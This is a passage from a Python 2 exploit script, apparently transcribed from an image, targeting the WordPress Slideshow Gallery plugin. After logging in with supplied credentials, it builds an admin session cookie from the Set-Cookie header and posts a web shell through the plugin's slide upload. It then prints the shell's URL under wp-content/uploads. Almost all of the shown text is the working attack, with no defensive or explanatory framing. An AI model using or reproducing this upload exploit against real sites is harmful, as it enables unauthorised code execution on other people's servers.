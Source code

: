             sys.exit()
        else:
            print '[+] Username & password ACCEPTED!\n'

            # Create cookie for admin panel
            if 'secure' in response['set-cookie']:
                c00k13 = response['set-cookie'].split(" ")[6]+' '+response['set-cookie'].split(" ")[0]+' '+response['set-cookie'].split(" ")[10]
            else:
                c00k13 = response['set-cookie'].split(" ")[5]+' '+response['set-cookie'].split(" ")[0]+' '+response['set-cookie'].split(" ")[8]

            bodyupload = create_body_sh3ll_upl04d(payloadname)

            headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36',
                       'Cookie': c00k13,
                       'content-type': content_type,
                       'content-length': str(len(bodyupload)) }
            response, content = http.request(url_admin_slideshow, 'POST', headers=headers, body=bodyupload)

            if 'admin.php?page=slideshow-slides&Galleryupdated=true&Gallerymessage=Slide+has+been+saved' in content:
                print '[!] Shell Uploaded!'
                print '[+] Check url: '+host+'/wp-content/uploads/slideshow-gallery/'+payloadname.lower()+' (lowercase!!!!)'
            else:
                print '[X] The user can not upload files or plugin fixed :((('

    except socket.timeout:
        print('[X] Connection Timeout')
        sys.exit(1)
    except socket.error:
        print('[X] Connection Refused')
        sys.exit(1)
    except httplib.ResponseNotReady:
        print('[X] Server Not Responding')
        sys.exit(1)
    except httplib2.ServerNotFoundError:
        print('[X] Server Not Found')
        sys.exit(1)
    except httplib2.HttpLib2Error:
        print('[X] Connection Error!!')
        sys.exit(1)

